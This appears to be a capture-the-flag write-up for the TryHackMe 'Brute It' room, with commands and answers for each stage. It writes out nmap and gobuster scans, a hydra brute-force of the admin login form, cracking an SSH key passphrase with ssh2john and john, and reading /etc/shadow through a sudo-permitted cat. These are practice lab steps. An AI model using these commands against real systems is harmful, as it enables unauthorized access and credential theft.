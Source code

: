 # Brute It
![image](https://user-images.githubusercontent.com/115979342/203993752-2b820e22-aed6-4205-843d-5391e1ed4b06.png)

https://tryhackme.com/room/bruteit

### 1.Reconnaissance

1.nmap and gobuster

```
nmap -sC -sV(-sS -sV) MACHINE_IP
gobuster dir -u MACHINE_IP  -w /usr/share/wordlists/dirb/common.txt -t 50 
```
![image](https://user-images.githubusercontent.com/115979342/203993942-75e302be-858c-461a-a354-eaba170d8738.png)


![image](https://user-images.githubusercontent.com/115979342/203993861-290d1ac8-7ed1-4be8-a8ea-9e683cd7ed54.png)

2.answers

1.Search for open ports using nmap.
How many ports are open?

```
2
```

2.What version of SSH is running?

```
OpenSSH 7.6p1 
```

3.What version of Apache is running?

```
2.4.29
```

4.Which Linux distribution is running?

```
Ubuntu
```

Search for hidden directories on web server.
What is the hidden directory?

```
/admin
```

### 2.Getting a shell

Find a form to get a shell on SSH.


1.What is the user:password of the admin panel?
![image](https://user-images.githubusercontent.com/115979342/203994087-e30fa23a-0260-431e-a775-62fbd409fd4d.png)


At first I tried the universal password but the background have set bypassed
So I turned to tools ﻿--hydra
Be careful when using the tool 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt MACHINE_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
```
![image](https://user-images.githubusercontent.com/115979342/203994230-a2eea4d3-2edd-4045-99a1-c7100fe89356.png)

"/:username=^USER^&password=^PASS^:F=incorrect"
If it is a directory, it must end with / ("/admin/:)
Or for a specific filename (index.php:)
The error message is set according to different situations

Login to interface with password
And get the answers

2.Crack the RSA key you found. What is John's RSA Private Key passphrase?

We got the rsa file.
![image](https://user-images.githubusercontent.com/115979342/203994404-efaa432a-ffc4-4111-b692-9dd98b81e789.png)


https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/

All we have to do is run it against the private key and direct the results to a new hash file using the ssh2john Python tool:

```unknown
python ssh2john.py id_rsa > id_rsa.hash
```

Next, we'll use [John](https://null-byte.wonderhowto.com/how-to/use-john-ripper-metasploit-quickly-crack-windows-hashes-0200322/) to crack the password. 

```unknown
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

SSH into the Target

We can [SSH](https://null-byte.wonderhowto.com/how-to/set-up-ssh-server-with-tor-hide-from-shodan-hackers-0194455/) into the target using the **-i** option to specify a private key for authentication:

```unknown
ssh -i id_rsa john@MACHINE_IP
```

And we get an error. It won't allow us to use the key if permissions are too open, so all we have to do is set the permissions to be more restricted:

```unknown
 chmod 400 id_rsa
```

Successfully logged in as John

3.user.txt

4.Web flag

### 3.Privilege Escalation

https://tryhackme.com/room/linuxprivesc

View vulnerabilities that can be exploited to escalate privileges

find /bin/cat 

Tools: https://gtfobins.github.io/gtfobins/cat/

Elevate privileges View root password
 
 LFILE=/etc/shadow
cat "$LFILE"
Use john to crack the hash password

![image](https://user-images.githubusercontent.com/115979342/203994731-2f9ed1ba-103f-4522-9b1e-edda7c694aca.png)

